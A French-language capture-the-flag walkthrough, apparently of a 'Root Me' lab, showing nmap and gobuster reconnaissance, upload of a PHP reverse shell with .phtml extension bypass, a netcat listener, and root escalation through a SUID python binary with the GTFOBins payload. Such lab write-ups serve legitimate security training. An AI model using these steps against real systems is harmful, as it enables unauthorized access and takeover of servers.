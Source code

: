 # Root Me

## I- Scanning

On utilise nmap `nmap -sC -sV <target ip>` ou tu peux faire un nmap agressif `nmap -A <target ip>` ou encore `nmap -sV <target ip>`

On regarde les ports ouvert et en fonction on peut essayer de se connecter aux services disponible (ex: HTTP, SSH, SMB etc…)

* Ici on peut voir un service SSH et un serveur web qui fait tourner Apache httpd 2.4.29

## II- Enumération

On utilise **gobuster** lors de cette étape pour découvrir les dossier présent sous la page web:

`gobuster dir -u http://<ip-cible> -w <wordlist>`

```jsx
gobuster dir -u http://<ip-cible> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

chemin de wordlists:

* /usr/share/wordlists/dirb/common.txt
* /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
* /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
* /usr/share/wordlists/rockyou.txt

On obtient deux dossiers particulièrement intéressant: /uploads et /panel On se connecte pour regarder ces dossiers

La page /panel/ est particulièrement intéressante

## III- Exploitation

Nous allons pouvoir faire un reverse shell, on peut utiliser un revershe shell php de pentestmonkey: [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

`git clone <https://github.com/pentestmonkey/php-reverse-shell`>

On donne les permissions:

```powershell

chmod +x php-reverse-shell.php
```

On edit le script pour que l’IP soit l’IP ATTAQUANTE et on peut également changer le port sur lequel l’on souhaite écouter (1234 ou encore 6666). Si la page n’autorise pas d’upload des fichiers php, il y a d’autres alternatives:

* php3
* php4
* php5
* phtml

```powershell

mv php-reverse-shell.php php-reverse-shell.phtml
```

Ensuite va sur la page /uploads/ de plus tôt, il y a notre fichier reverse shell, nous pouvons mtn lancé un netcat pour écouter sur le port spécifier dans notre reverse shell

```powershell
nc -lvnp 4444
```

Sur la page uploads, on clique sur notre fichier pour l’exécuter et on check le terminal, opération réussie !

Nous devons maintenant trouver la location du fichier ruser.txt et l’ouvrir

```powershell
find / -name user.txt 2>/dev/null
```

## IV- Escalation de privilège

Maintenant que nous avons un shell, nous pouvons passer en root.

Nous allons d’abord regarder les permissions SUID:

```powershell
find / -type f -user root -perm -4000 2>/dev/null
```

Nous avons /usr/bin/python qui pourrait être utilisé pour faire une escalation de privilège: [https://gtfobins.github.io/](https://gtfobins.github.io/)

On recherche python et on va jusqu’à la catégorie SUID

```
sudo install -m =xs $(which python) .

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data
```

Nous pouvons maintenant chercher le fichier root

```powershell
find / -name root.txt 2>/dev/null
```
